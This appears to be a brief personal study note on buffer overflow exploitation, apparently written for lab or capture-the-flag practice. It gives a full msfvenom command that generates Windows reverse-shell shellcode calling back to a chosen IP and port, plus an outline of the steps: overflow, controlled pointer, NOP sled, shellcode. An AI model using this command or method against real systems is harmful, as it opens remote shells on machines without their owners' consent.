

Generating shellcode with msf- >msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.4 LPORT=444 EXITFUNC=thread -f c -a x86 -b "\x00"
- breakdown: msfvenom -p {payload} LHOST={Your IP} LPORT={port} EXITFUNC=thread -f c -a x86 -b "\x00"
======================================================================================================



breakdown of code:
script connects >> inserts shellcode into command >> starts with buffer overflow >> inserts pointer that we control >> insert shellcode (add NOP sled tho)